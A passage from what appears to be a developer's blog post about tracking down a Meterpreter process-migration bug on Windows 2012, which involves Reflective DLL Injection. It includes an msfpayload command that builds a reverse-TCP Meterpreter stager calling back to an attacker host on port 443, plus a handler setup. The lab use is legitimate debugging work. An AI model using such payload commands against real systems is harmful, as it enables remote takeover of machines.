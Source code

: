 * Writing the code to an executable area of memory.
* Executing the loader which creates a valid DLL image in memory.
* Calling [DllMain][] on the loaded DLL.
* Returning control to the process that invoked it.

With that in mind, let's take a look at the bug.

The Bug
-------

The bug that was reported related to process migration, and went something like this (paraphrased slightly with a bit more information):

> Trying to migrate Metepreter between processes on Windows 2012 seems to be
> unreliable. It will migrate just fine into some processes, such as _explorer.exe_,
> without any problems. However, spawning another process, such as _notepad.exe_, and
> migrating to it hangs the entire session. Migrating to the _winlogon.exe_ process
> crashes the entire user environment on the target host.

When I first read this report I thought "Wow, how am I going to track this down?", and I'll admit that I was a little intimidated at first, especially given that I knew that the native Windows Meterpreter was using Reflective DLL Injection to load itself into other processes. However, it's been a long time since I'd been tasked with something this challenging and so, deep down, I was looking forward to diving in.

Replication
-----------

The first step was to fire up a Windows 2012 virtual machine and replicate the problem. Windows 2012 only comes in a 64-bit flavour, so picking the right version wasn't a problem.

After installation, I needed to simulate an attack coming from Metasploit so that I could interact with Meterpreter to perform the migration.

Creating a payload to do this is really simple thanks to [msfpayload][] (part of Metasploit). On my [Backtrack][] VM I used the following command to generate the PE image:

    root@bt:~# msfpayload windows/x64/meterpreter/reverse_tcp LHOST=10.5.26.40 LPORT=443 X > 40-443-x64.exe

This command creates a 64-bit Windows executable that contains a small stager. This stager connects to `10.5.26.40` (my Backtrack VM) on port `443` (I always choose the HTTPS port to avoid potential outbound firewall issues). Once connected it will download the Meterpreter payload and establish a session with Metasploit.

I copied this binary to the Windows 2012 machine ready to execute. At this point, Metasploit needs to be set up and configured to deal with the incoming request. On the Backtrack VM, we run `msfconsole` and set it up to use `multi/handler` with the appropriate settings, like so:

    msf exploit(handler) > show options

    Module options (exploit/multi/handler):

       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------


    Payload options (windows/x64/meterpreter/reverse_tcp):


  [met_native]: https://github.com/rapid7/meterpreter "Native Meterpreter"
  [Metasploit framework]: http://www.metasploit.com/ "Metasploit Framework"
  [penetration test]: http://en.wikipedia.org/wiki/Penetration_test "Penetration Testing"
  [msf_source]: https://github.com/rapid7/metasploit-framework/ "Metasploit Framework Source"
  [Rapid7]: http://www.rapid7.com/ "Rapid 7"
  [r7_blog]: https://community.rapid7.com/community/metasploit/blog/2013/09/05/weekly-update "Weekly Update: Meterpreter Updates, VMWare, the OSX spycam, Retabbing, and more!"
  [rdi_paper]: http://www.harmonysecurity.com/files/HS-P005_ReflectiveDllInjection.pdf "Reflective DLL Injection"
  [Harmony Security]: http://harmonysecurity.com/ "Harmony Security"
  [Stephen Fewer]: http://twitter.com/stephenfewer
  [DllMain]: http://msdn.microsoft.com/en-us/library/windows/desktop/ms682583(v=vs.85).aspx "DllMain Entry Point"
  [msfpayload]: http://www.offensive-security.com/metasploit-unleashed/Msfpayload "msfpayload"
  [Backtrack]: http://www.backtrack-linux.org/ "Backtrack Linux"
  [DebugView]: http://technet.microsoft.com/en-au/sysinternals/bb896647.aspx "DebugView"
  [Windbg]: http://en.wikipedia.org/wiki/WinDbg "Windbg"
  [dbg_tools]: http://msdn.microsoft.com/en-us/windows/hardware/gg463009.aspx "Debugging Tools for Windows"
  [OutputDebugString]: http://msdn.microsoft.com/en-us/library/windows/apps/aa363362(v=vs.85).aspx "OutputDebugString function"
  [DWORD]: http://msdn.microsoft.com/en-us/library/cc230318.aspx "DWORD"
  [ULONG_PTR]: http://msdn.microsoft.com/en-us/library/cc230394.aspx "ULONG_PTR"
  [ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization "Adress Space Layout Randomisation"
  [sf_pr]: https://github.com/rapid7/meterpreter/pull/14